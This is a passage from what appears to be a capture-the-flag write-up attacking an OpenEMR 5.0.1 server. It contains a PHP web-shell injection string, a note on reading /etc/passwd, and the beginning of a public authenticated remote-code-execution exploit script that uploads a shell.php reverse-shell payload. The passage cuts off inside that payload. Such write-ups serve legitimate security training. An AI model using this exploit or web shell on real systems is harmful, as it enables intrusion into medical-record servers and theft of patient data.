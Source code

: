 ![](/assets/img/24-etc-passwd.png)

Got `/etc/passwd`, can see that `luffy`, `ash`, and `root` are the only users that can log in. Played around with running commands with a simple shell, then remembered that I had downloaded a python exploit that required authentication to the portal to work. `mode=save&docid=rce.php&content=<?php system($_GET["evil"]); ?>`

```python
# Title: OpenEMR 5.0.1 - Remote Code Execution
# Exploit Author: Musyoka Ian
# Date: 2020-05-25
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

# openemr_exploit.py

#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import requests
import time

auth = "[+] Authentication with credentials provided please be patient"
upload = "[+] Uploading a payload it will take a minute"
netcat = "[+] You should be getting a shell"
s = requests.Session()
payload = {'site': 'default', 'mode' : 'save', 'docid' : 'shell.php', 'content' : """<?php

set_time_limit (0);
$VERSION = "1.0";
$debug = 0;

```